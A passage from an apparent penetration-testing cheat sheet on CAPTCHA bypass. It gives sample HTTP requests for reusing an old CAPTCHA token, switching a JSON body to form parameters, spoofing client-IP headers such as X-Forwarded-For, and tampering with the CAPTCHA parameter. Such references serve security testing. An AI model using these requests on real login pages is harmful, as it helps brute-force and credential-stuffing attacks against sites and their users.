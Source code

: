```

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```
### Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}


--------------------------------------------------------------------------------------

POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
### Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
### Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
